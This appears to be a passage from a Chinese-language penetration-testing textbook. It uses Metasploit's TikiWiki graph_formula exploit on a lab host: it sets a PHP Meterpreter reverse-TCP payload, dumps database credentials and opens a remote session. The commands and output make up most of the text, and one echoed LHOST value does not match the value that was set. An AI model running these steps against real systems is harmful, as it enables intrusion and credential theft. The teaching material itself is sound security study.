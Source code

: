 示例 8-7. 使用 TikiWiki 漏洞

```
msf  exploit(seattlelab_pass) > **use unix/webapp/tikiwiki_graph_formula_exec**
msf  exploit(tikiwiki_graph_formula_exec) > **show options**

Module options (exploit/unix/webapp/tikiwiki_graph_formula_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        Use a proxy chain❶
   RHOST                     yes       The target address
   RPORT    80               yes       The target port
   URI      /tikiwiki        yes       TikiWiki directory path❷
   VHOST                     no        HTTP server virtual host❸

Exploit target:

   Id  Name
   --  ----
   0   Automatic

msf  exploit(tikiwiki_graph_formula_exec) > **set RHOST 192.168.20.11**
RHOST => 192.168.20.11
```

我们可以为 TikiWiki 服务器设置代理链❶和/或虚拟主机❸，但在这里我们不需要这么做。我们可以将 URI 保持在默认位置*/tikiwiki* ❷。

这个漏洞涉及 PHP 命令执行，因此我们的有效载荷自然是基于 PHP 的。使用 `show payloads` 命令（示例 8-8）可以看到，我们可以使用基于 PHP 的 Meterpreter❶，就像我们在 XAMPP 漏洞利用中做的那样。我们还需要再次设置 `LHOST` 选项❷。

示例 8-8. 使用 Metasploit 攻击 TikiWiki

```
msf  exploit(tikiwiki_graph_formula_exec) > **set payload** **php/meterpreter/reverse_tcp**❶
payload => php/meterpreter/reverse_tcp

msf  exploit(tikiwiki_graph_formula_exec) > **set LHOST 192.168.20.9**❷
LHOST => 192.168.20.110
msf  exploit(tikiwiki_graph_formula_exec) > **exploit**

[*] Started reverse handler on 192.168.20.9:4444
[*] Attempting to obtain database credentials...
[*] The server returned            : 200 OK
[*] Server version                 : Apache/2.2.9 (Ubuntu) PHP/5.2.6-2ubuntu4.6 with Suhosin-Patch
[*] TikiWiki database informations :

db_tiki   : mysql
dbversion : 1.9
host_tiki : localhost
user_tiki : tiki❸
pass_tiki : tikipassword
dbs_tiki  : tikiwiki

[*] Attempting to execute our payload...
[*] Sending stage (39217 bytes) to 192.168.20.11
[*] Meterpreter session 5 opened (192.168.20.9:4444 -> 192.168.20.11:54324) at 2015-01-07 20:41:53 -0500

meterpreter >
```
